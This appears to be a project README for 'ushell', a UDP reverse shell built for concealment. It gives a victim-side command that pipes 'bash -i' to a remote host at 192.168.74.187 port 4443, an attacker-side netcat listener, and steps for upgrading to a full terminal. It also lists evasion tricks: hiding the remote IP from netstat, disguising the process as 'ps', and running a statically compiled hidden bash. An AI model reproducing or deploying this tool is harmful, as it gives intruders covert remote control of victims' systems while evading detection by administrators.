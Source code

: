 # motivation
want to implenment a udp reverse shell with full shell property(support pty/tab/arrow..) and high degree of concealment.

# compile
make

# usage
## victim 
mkfifo fifo;./ushell -u 192.168.74.187 4443 < fifo | ./ushell -p bash -i >& fifo

## attacker
nc -ulvp 4443

# support tab/arrow/ctrl-c
ctrl-z //return to host  
stty raw -echo  
fg //return to shell  
reset  
// make beautiful  
export SHELL=**  
export TERM=**  
stty rows ** columns **   

# key property
+ udp socket without connect(thus hide remote ip from netstat)
+ cmd line hide as "ps"(thus hide remote ip from cmd line)
+ use forkpty() to provide a pty terminal

# other
we can also compile a bash staticly and hide its cmd line 
